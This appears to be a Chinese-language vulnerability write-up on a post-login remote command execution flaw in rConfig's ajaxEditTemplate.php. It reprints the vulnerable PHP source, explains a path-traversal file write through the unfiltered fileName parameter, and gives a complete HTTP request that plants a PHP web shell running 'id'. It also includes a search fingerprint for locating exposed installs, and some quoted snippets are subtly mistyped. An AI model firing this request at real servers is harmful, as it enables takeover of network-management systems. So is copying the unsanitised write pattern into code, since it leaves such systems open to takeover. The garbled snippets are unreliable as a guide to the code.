

# rConfig ajaxEditTemplate.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxEditTemplate.php 存在后台远程命令执行

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

漏洞文件为 `rconfig/www/lib/ajaxHandlers/ajaxEditTemplate.php`


```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/classes/spyc.class.php");
require_once("/home/rconfig/config/functions.inc.php");

$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
    $ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir.$fileName;

    $username = $_SESSION['username'];
    require_once("../../../classes/db2.class.php");
    require_once("../../../classes/ADLog.class.php");
    $db2 = new db2();
    $log = ADLog::getInstance();

    if (!is_dir('templates')) {
        mkdir('templates');
        chown('templates', 'apache');
    }

    // if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444);
 
    $db2->query("UPDATE `templates` SET `fileName` = :fileName, `name` = :name, `desc` = :desc, `dateLastEdit` = NOW(), `addedby` = :username WHERE `id` = :id");
    $db2->bind(':id', $_POST['id']);
    $db2->bind(':fileName', $fullpath);
    $db2->bind(':name', $ymlData['main']['name']);
    $db2->bind(':desc', $ymlData['main']['desc']);
    $db2->bind(':username', $username);

    $queryResult = $db2->execute();
    /* Update successful */
    if ($queryResult && file_exists($fullpath)) {
        $response = "success";
        $log->Info("Success: Template: ".$fullpath." edited in templates folder");
    }
    /* Update failed */ else {
        $response = "failed";
        $log->Warn("Success: Could not edit Template ".$fullpath." in templates folder");
    }
    echo json_encode($response);    
}  // end session check
```


关键代码如下


```php
// if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444;
```


$fileName -->  $fullpath ---> 写入文件，其中 fileName参数 POST传入时没有过滤导致目录可上传任意位置


```php
$ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir+ .$fileName;
```





```php
$filehandle = fopen($fullpath, 'w+');
file_put_contents($fullpath, $_POST['code']);
```


POST code 传参写入文件 test.php.yml, 请求包如下


```plain
POST /lib/ajaxHandlers/ajaxEditTemplate.php HTTP/1.1
Host: 
Cookie: PHPSESSID=fv8j4c6r4gofug1vr9v3efdvj7
Content-Length: 81
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

fileName=../www/test.php&code=<?php echo system('id');?>&id=1
```


这里写入文件 `test.php.yml`,并使用 `../` 跳出限制的目录，访问 test.php.yml 实际访问了 test.php，执行id命令


## 